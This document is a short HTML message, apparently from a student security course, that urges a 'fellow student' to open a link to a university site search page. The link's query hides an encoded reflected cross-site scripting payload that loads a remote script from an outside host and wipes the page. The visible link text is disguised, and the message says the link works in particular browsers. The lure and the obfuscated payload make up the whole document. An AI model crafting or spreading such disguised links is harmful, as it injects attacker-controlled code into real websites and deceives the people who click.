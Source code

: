 Hey, fellow student! Check out this awesome professor that I found.

<a href="http://www.se.rit.edu/search/node/Daniel+Krutz&lt;img+src=http:&amp;%2347;&amp;%2347;www.se.rit.edu&amp;%2347;sites&amp;%2347;all&amp;%2347;themes&amp;%2347;se&amp;%2347;assets&amp;%2347;img&amp;%2347;se-logo.png+style=display:none+onload=if(typeof(xssScript)&amp;%2361;&amp;%2361;&quot;undefined&quot;){var&nbsp;xssScript=document.createElement(&quot;script&quot;);xssScript.setAttribute(&quot;src&quot;,&quot;http:&amp;%2347;&amp;%2347;benwoodworth.net&amp;%2347;school&amp;%2347;swen-331&amp;%2347;se-xss.js&quot;);document.body.innerHTML=&quot;&quot;;document.body.appendChild(xssScript);}&gt;">
  ht&zwnj;tp://www.se.rit.edu/search/node/Daniel+Krutz
</a>  
(You should most definitely open this link in FireFox or Safari, because reasons)
